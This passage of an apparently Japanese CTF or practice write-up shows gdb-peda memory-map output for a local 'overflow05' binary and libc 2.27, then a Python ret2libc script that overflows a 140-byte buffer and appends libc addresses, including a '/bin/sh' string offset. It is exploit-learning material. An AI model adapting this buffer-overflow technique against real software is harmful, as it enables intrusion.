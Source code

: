 ```
gdb-peda$ i proc map
process 29991
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/saru/pwn005/overflow05
         0x8049000  0x804a000     0x1000        0x0 /home/saru/pwn005/overflow05
         0x804a000  0x804b000     0x1000     0x1000 /home/saru/pwn005/overflow05
        0xf7ded000 0xf7fbf000   0x1d2000        0x0 /lib32/libc-2.27.so
        0xf7fbf000 0xf7fc0000     0x1000   0x1d2000 /lib32/libc-2.27.so
        0xf7fc0000 0xf7fc2000     0x2000   0x1d2000 /lib32/libc-2.27.so
        0xf7fc2000 0xf7fc3000     0x1000   0x1d4000 /lib32/libc-2.27.so
        0xf7fc3000 0xf7fc6000     0x3000        0x0
        0xf7fcf000 0xf7fd1000     0x2000        0x0
        0xf7fd1000 0xf7fd4000     0x3000        0x0 [vvar]
        0xf7fd4000 0xf7fd6000     0x2000        0x0 [vdso]
        0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib32/ld-2.27.so
        0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib32/ld-2.27.so
        0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib32/ld-2.27.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
gdb-peda$
```

あれ？2.27じゃん？と思ったら

```
saru@lucifen:~/pwn005$ ls -l /lib32/libc.so.6
lrwxrwxrwx 1 root root 12 Apr 16  2018 /lib32/libc.so.6 -> libc-2.27.so
saru@lucifen:~/pwn005$
```

リンクされてただけだった。
なのでアドレスは0xf7ded000。

## exploitコード

```python
saru@lucifen:~/pwn005$ cat exploit05_stdout.py
import struct
import sys

base_libc = 0xf7ded000
offset_system = 0x0003cd10
offset_puts = 0x00067360
offset_shell = 0x0017b8cf
bufsize = 140

def main():
    buf = b'A' * bufsize
    buf += struct.pack('<I', base_libc + offset_puts)
    buf += struct.pack('<I', base_libc + offset_puts)
    buf += struct.pack('<I', base_libc + offset_shell)
    buf += struct.pack('<I', base_libc + offset_shell)

    sys.stdout.buffer.write(buf)



if __name__ == "__main__":
    main()
```
